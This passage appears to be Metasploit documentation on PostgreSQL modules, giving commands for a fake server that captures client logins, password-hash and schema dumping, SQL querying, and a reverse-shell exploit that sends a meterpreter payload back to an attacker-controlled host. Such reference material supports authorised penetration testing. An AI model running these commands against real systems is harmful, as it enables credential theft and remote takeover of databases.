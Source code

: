 ### PostgreSQL Capture Server

Captures and log PostgreSQL credentials:

```
use auxiliary/server/capture/postgresql
run
```

For example, if a client connects with:

```
psql postgres://postgres:mysecretpassword@localhost:5432
```

Metasploit's output will be:

```msf
msf auxiliary(server/capture/postgresql) >
[*] Started service listener on 0.0.0.0:5432
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:60406 postgres / mysecretpassword / postgres
```

### PostgreSQL Dumping

User and hash dump:

```
use auxiliary/scanner/postgres/postgres_hashdump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13/database_name
```

Schema dump:

```
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13 ignored_databases=template1,template0,postgres
```

### PostgreSQL Querying

```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

### PostgreSQL Reverse Shell

```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64'
```
